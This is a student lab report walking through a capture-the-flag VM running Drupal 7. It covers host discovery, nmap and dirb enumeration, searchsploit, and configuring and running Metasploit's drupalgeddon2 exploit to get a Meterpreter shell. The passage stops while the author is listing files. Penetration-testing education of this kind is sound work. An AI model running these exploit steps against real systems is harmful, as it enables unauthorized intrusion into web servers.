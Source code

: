 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°207 

Goal : find the root Flag.

### 1. Find IP address of the machjine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 2](../images/dbdb62e0e1c5ed3fd7088a391cdb1a9cd4c1e52a818f786f2d4d36a9d44d2690.png)  

Our target is 10.0.2.5. 

The 2 first is VBox address (network and dhcp).

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options.

```bash
$ sudo nmap -p- 10.0.2.5
```
![picture 1](../images/e73bc8b9096a5159631c59bd2426f4de02b3ca41dd097dcd5a26f0dd8eaf51fb.png)  

For more precision on version and services, we can use the following command :

```bash 
nmap -Pn -sC -sV -p- 10.0.2.5
```
![picture 3](../images/9f9cacc3afecd896756c2760e43ec342aa6cdb354b96705a93835491c545faae.png)  

We can see that multiple ports are open (22, 80, 5000, 8081, 9001).

For the port 80, which host a web server, we can dig to find a something in arborescence directory. We will use dirb.

```bash
$ dirb http://10.0.2.5 -w
```
![picture 7](../images/059b96d242b3101a2431a397f418ca384f05011872e9a3883164636274b4185a.png)  

There is 2 files which can be interesting : /index.txt and /robots.txt.

In robots.txt, we can find about.html that dirb didn't find.

![picture 8](../images/d9b51a4ca1593f3067c49e15b984d7ffb835eb35522fe5acaf8199ba2f93a019.png)  

They told us to not brute force the vulnerable stuff because it doesn't work everytime.

We can try to search for the CMS like the name of the machine suggest it.

Drupal 7 is used on this machine (we have seen it on second nmap scan).

### 3. Find vulnerabilities

We can use searchsploit to find vulnerabilities on Drupal 7 that we will using with MetaSploit.

```bash
$ searchsploit drupal 7

$ msfconsole

$ search drupal 7
```
![picture 9](../images/e22bce70cb67f8c22d04c49821b1791dd63bd669412888441e8b45eb1304ea13.png)  

![picture 10](../images/9e97cbf808de61c54f70a8a1e598c0595d4c57b2b625082b0beb7afb03889186.png)  

### 4. Exploit

We can test the exploit drupal_drupalgeddon2 which has an "excellent" rank.

```bash
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We need to set the options of the exploit.
To see what attributes are present in the exploit that needed to be set again, we will use the command :

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options
```

![picture 11](../images/142838e243e9dccfb0d7111135ec40859fb83272127518198e0349c25a88d2b4.png)  

We have to change 3 attributes : RHOSTS, RPORT and LPORT.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport
rport => 80
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 9001
rport => 9001
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 1234
lport => 1234
```

And now, we can run the exploit.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

Now that we have an interpretzer, we can use the command "ls" and we can distinguish 2 files with a different last modified date than the other files / directories.

![picture 12](../images/2d63c959c2ae0c892d5460cdd2d4fe737fc1212cad2a37eaae0cd1ed1e477039.png)  

LICENSE.txt has nothing special but misc has some interesting files.

```bash
meterpreter > ls misc
```
